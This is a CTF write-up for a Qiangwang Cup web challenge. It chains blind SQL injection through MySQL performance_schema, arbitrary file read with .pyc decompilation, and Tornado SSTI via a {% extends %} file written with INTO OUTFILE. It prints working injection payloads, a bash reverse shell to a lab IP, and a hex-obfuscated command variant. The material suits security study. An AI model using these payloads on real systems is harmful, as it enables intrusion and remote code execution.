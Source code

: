 ### References

- ✨official - [@b1ind, 强网杯[pop_master]与[陀那多]赛题的出题记录, 2021-06-15](https://www.anquanke.com/post/id/244153#h2-4)

**Tag: SQL Injection, tornado SSTI**

1.SQL injection in `register.php`, `username` parameter, some fuzz show it filtered `#`,`--+`,`union`,`=`,`>`,`<`,`like`...

Most troublesome part is that the `table` and `column` key words unable to use. we can use the [file_instances](https://dev.mysql.com/doc/refman/5.7/en/performance-schema-file-instances-table.html) to get table name:

```sql
username=a' or if((ascii(mid((select file_name FROM performance_schema.file_instances limit 150,1),1,1)) in (47)),1,0) and '1&password=a
```

get file_name: `/var/lib/mysql/qwb/qwbtttaaab111e.frm`, so table name is `qwbtttaaab111e`

then we can get the table structure from the `DIGEST_TEXT` field in the [events_statements_summary_by_digest](https://dev.mysql.com/doc/refman/5.7/en/performance-schema-statement-summary-tables.html) table:

```sql
username=a' or if((ascii(mid((select DIGEST_TEXT FROM performance_schema.events_statements_summary_by_digest where SCHEMA_NAME in ('qwb') limit 1,1),1,1)) in (83)),1,0) and '1&password=a
```

get result is: 

```sql
SELECT * FROM `qwbtttaaab111e` WHERE `qwbqwbqwbuser` = ? AND `qwbqwbqwbpass` = ?
```

so column have `qwbqwbqwbuser` and `qwbqwbqwbpass`. and the username and password can then be obtained:

```sql
username=a' or if((ascii(mid((select group_concat(qwbqwbqwbuser,0x40,qwbqwbqwbpass) FROM qwbtttaaab111e),1,1)) in (97)),1,0) and '1&password=a
```

admin/we111c000me_to_qwb

> Or use the [processlist](https://dev.mysql.com/doc/refman/5.7/en/show-processlist.html) table to get the sql statement being executed, also possible to obtain table names and column names

2.After login we can see an image and glance at the path can aware of the possibility of arbitrary file reading

![](https://i.imgur.com/QpIX2LR.png)

The `flag` cannot be read directly here, also the `.py` file. By reading the `/proc/self/cmdline` can know that `/qwb/app/app.py` is running.

Since we can't read `.py` file, so just read the `.pyc` file and decompile it to get the source code. In response:

```tex
Server: TornadoServer/6.0.3
```

From [Tornado 6.0](https://www.tornadoweb.org/en/stable/releases/v6.0.0.html), the minimum supported Python version is 3.5.2. So here's a simple guess to get the file name:

```python
>>> import requests
>>> s = requests.session()
>>> s.get("http://192.168.200.129:8123/login.php?username=admin&password=we111c000me_to_qwb")
<Response [200]>

>>> res = s.get("http://192.168.200.129:8123/qwbimage.php?qwb_image_name=/qwb/app/__pycache__/app.cpython-35.pyc")
>>> with open('app.pyc', 'wb') as f:
...     f.write(res.content)
...
6717
```

then use [uncompyle6](https://github.com/rocky/python-uncompyle6) to decompile it:

```bash
$ uncompyle6 app.pyc > app.py
```

3.In the `/good_job_my_ctfer.php` route, there is a SSTI, but the filtering is very strict:

```python
black_func = ['eval', 'os', 'chr', 'class', 'compile', 'dir', 'exec', 'filter', 'attr', 'globals', 'help', 'input', 'local', 'memoryview', 'open', 'print', 'property', 'reload', 'object', 'reduce', 'repr', 'method', 'super', 'vars']
black_symbol = ["__", "'", '"', "$", "*", '{{']
black_keyword = ['or', 'and', 'while']
black_rce = ['render', 'module', 'include', 'raw']
```

Basically all dangerous operations are filtered, even `{{`. In addition to `{{}}`, the tornado framework also supports `{%%}`.

In [template.py](https://github.com/tornadoweb/tornado/blob/branch6.0/tornado/template.py#L142), we can find some useful operations such as `extends`. Its parameter is a file name which will be included as a template file and rendered.

So if we have a file that contains a string with a malicious SSTI payload, then it is possible to execute that SSTI payload.

In the previous arbitrary file read, the `/proc/self/environ` show that the python application started with mysql user privileges:

```tex
USER=mysql
```

So we can write file through mysql `into outfile` statement, and the default export directory is `/var/lib/mysql-files/`:

```sql
mysql> show variables like '%secure%';
+--------------------------+-----------------------+
| Variable_name            | Value                 |
+--------------------------+-----------------------+
| require_secure_transport | OFF                   |
| secure_auth              | ON                    |
| secure_file_priv         | /var/lib/mysql-files/ |
+--------------------------+-----------------------+
3 rows in set (0.01 sec)
```

4.First, write the payload to the database via sql injection:

```sql
/register.php?username=1&password={%set return __import__("os").popen("bash -c 'exec bash -i &>/dev/tcp/192.168.200.1/9001 <&1'")%}
```

into outfile

```sql
/register.php?username=1' into outfile '/var/lib/mysql-files/poc&password=1
```

Access to the corresponding route

```tex
/good_job_my_ctfer.php?congratulations={%25extends /var/lib/mysql-files/poc%25}
```

![](https://i.imgur.com/Lg7lnpC.png)

or

```sql
/register.php?username=1&password={{__import__(bytes.fromhex(str(hex(28531))[2:]).decode()).popen(bytes.fromhex(str(hex(279323744747812617481883710182392676816225436916761124444248150169258234324703143999506458696587503470271774501806956671608953577550119))[2:]).decode())}}
```

